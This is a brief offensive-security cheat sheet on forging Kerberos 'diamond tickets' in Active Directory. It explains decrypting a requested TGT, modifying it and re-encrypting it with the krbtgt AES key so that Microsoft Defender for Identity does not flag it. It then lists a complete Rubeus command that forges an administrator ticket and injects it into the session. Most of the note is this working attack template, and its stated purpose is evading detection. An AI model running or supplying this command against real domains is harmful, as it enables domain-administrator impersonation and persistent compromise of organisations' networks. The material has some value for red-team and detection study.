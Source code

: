 - When we forge a `diamont ticket`, there is no pre-auth request corresponding to the forged ticket. This is an anomaly and can be detected by MDIs.
- To bypass this, we can request a TGT, de-crypt it, modify if, then re-encrypt it, using the AES keys of the `krbtgt` account.
- Diamond ticket is the ofsec safe version of the golden ticket.
### Rubeus
```powershell
Rubues.exe diamond
	/krbkey:<aes-key> # krbtgt aes account
	/user:<username> # user to use for as-req
	/password:<password> # password for the user to use for as-req
	/enctype:aes
	/ticketuser:administrator # user to create forged ticket for
	/domain:<domain-fqdn> # fqdn of the domain
	/dc:<dc-fqdn> # fqdn of the domain controller
	/ticketuserID # impersonated user ID, RID of administrator
	/groups
	/createnetonly:C\windows\system32\cmd.exe # logon type 9, only net requests.
	/show
	/ptt
	# instead of the passsing username & password, we can use
	/tgtdeleg # this will use the current user, and does not require password
```